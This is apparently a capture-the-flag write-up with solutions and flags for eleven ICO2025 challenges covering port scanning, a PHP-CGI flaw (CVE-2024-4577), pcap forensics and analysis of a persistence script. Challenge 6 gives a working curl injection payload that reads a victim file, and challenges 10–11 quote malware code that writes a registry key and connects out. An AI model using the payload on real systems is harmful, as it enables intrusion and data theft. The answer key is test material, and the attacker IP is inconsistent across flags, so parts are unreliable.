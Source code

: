# 11 Easy Digital "forensics" Challenges.

## 1. **[Phase 1 - VA]**: Scanning
A common step in a vulnerability assessment is to scan for open ports and find running services on those ports. Can you conduct a port scan and find what ports are open on the compromised machine (200.200.200.20)? 

**Submission Format**: <br>
ICO2025{port number_service name}  *case insensitive*

**Solution**:<vr>
```nmap -sC -sV 200.200.200.20```

**Flag**:
ICO2025{80_http}


## 2. **[Phase 2 - VA]**: Scanning
Vulnerabilities can sometimes be operating system specific. As such, it is good practice to narrow down as much information as we can when conducting a vulnerability assessment. Are you able to find out what operating system is compromised machine using? 

**Submission Format**: <br>
ICO2025{xxx xxx xxx...}  *case insensitive*

**Solution**:<br>
```
nmap -O 200.200.200.20
```
Then copy all the versions and submit them until you get a flag.

**Flag**:
ICO2025{Microsoft Windows XP 2019}


## 3. **[Phase 1 - VA]**: Searching Open Services 
Services running on internal networks typically hold a significant importance and may contain sensitive information. Explore the services you found and see if you can find out the purpose of the service running on port 80.

**Submission Format:** <br>
ICO2025{Title of the list}

**Solution**:<br>
```
curl http://200.200.200.20/dashboard/
```
It's the title of the table on the page.

**Flag**:
ICO2025{IT Team's To-Do List}


## 4. **[Phase 1 - VA]**: Vulnerable Service 
Are you able to find the CVE number of the vulnerability present in the compromised machine?

**Submission Format**: <br>
ICO2025{CVE_2021_1111}  *case insensitive*

**Solution**:<br>
```
Visit http://200.200.200.20/ in browser.
```
It says the CVE on the website in table. 

**Flag**:
ICO2025{CVE_2024_4577}


## 5. **[Phase 1 - VA]**: Metasploit 
Exploit the vulnerability!

**Submission Format**: <br>
ICO2025{metasploit_module} *omit out the /exploit/.../.../      case insensitive

**Solution**:<br>
```
mfs (metasploit console)
search CVE-2024-4577
```
This will then print the exploit path on metasploit which is:
```
use exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577
```

**Flag**:
ICO2025{php_cgi_arg_injection_rce_cve_2024_4577}


## 6. **[Phase 2 - Forensics]**: Analysing Pcap 
Analyse the packet capture file given in <br>
C:\Users\Marcus-WebAdmin\Documents\Network Captures. 

We are trying to look out for suspicious activities from the attacker but first, we need to identify the attacker's IP address. Are there any suspicious IP addresses in the unit's network found in the capture?

**Submission Format**: <br>
ICO2025{ip_address}

**Solution**:<br>
So I couldn't get metasploit to work - I could not get it to find my local machine. I ended up writing a curl command instead:
```
curl -X POST "http://localhost:3390/?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input" \
  -H "User-Agent: curl/8.3.0" \
  -H "Accept: */*" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary $'<?php echo base64_encode(file_get_contents("C:\\\\Users\\\\Marcus-WebAdmin\\\\Documents\\\\Network Captures\\\\capture.pcapng")); ?>' \
  -o capture_base64.txt
base64 -d capture_base64.txt > capture.pcap
```
After the pcap was obtained, I just looked at what IP addreses were sending tcp traffic with malicious packets. 
![Malicious Pcap](./assets/malicious.png)
It was pretty obviosly this IP that was sending malicious traffic.

**Flag**:
ICO2025{192.168.12.35}


## 7. **[Phase 2 - Forensics]**: Attacker Malware 
It seems like the attacker might have uploaded some of his own files on the compromised machine. Are you able to identify the frame number where the request is initiated?

**Submission Format**: <br>
ICO2025{Frame_No}

**Solution**:<br>
First, I added filters to wireshark: ``` ip.src == 192.168.12.135 || ip.dst == 192.168.12.135 && (ftp.request.command == "STOR" || http.request.method == POST) ```
Scrolling through that, I spotted 2 files being transfered over ftp. These files are being exported: ![Ftp Files](./assets/ftp_capture.png)
From that, I knew the flag would be around package 4400. I then found the request that initiated the request.

**Flag**:
ICO2025{4395}


## 8. **[Phase 2 - Forensics]**: Export Objects 
Try to export out important objects/files found in the pcap file!

**Submission Format**: <br>
ICO2025{Suspicious_file_name}

**Solution**:<br>
```
The same file from the file export... ```persist.py```
```

**Flag**:
ICO2025{persist.py}


## 9. **[Phase 2 - Forensics]**: Attacker's Malware Part 2 
It seems like the attacker might have uploaded some of his own files on the compromised machine. Are you able to find it and generate out its md5 digest?

**Submission Format**: <br>
ICO2025{md5_digest}  *case insensitive*

**Solution**:<br>
```
md5sum persist.py
```

**Flag**:
ICO2025{3b3ea2f2378fbcc04f3a6b95049e8b81}


## 10. **[Phase 3 - AP]**: Malware Analysis 
The malware have attempted to make network connection(s), what IP address and port is it trying to connect to?

**Submission Format**: <br>
ICO2025{IP Address:port number}

**Solution**:<br>
```
cat persist.py
```
It has this section:
```py
add_to_registry()

HOST = '192.168.12.135'
PORT = 4242

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```

**Flag**:
ICO2025{192.168.12.135:4242}


## 11. **[Phase 3 - AP]**: Malware Analysis Part 2 
What is the name of the key that was created by the malware?

**Submission Format**: <br>
ICO2025{name}

**Solution**:<br>
It also has this section:
```py
    key = reg.OpenKey(reg.HKEY_CURRENT_USER, key_path, 0, reg.KEY_ALL_ACCESS)
    
    # Add the script to the registry
    reg.SetValueEx(key, "malware", 0, reg.REG_SZ, script_path)
    
    # Close the registry key
    reg.CloseKey(key)

```

**Flag**:
ICO2025{malware}
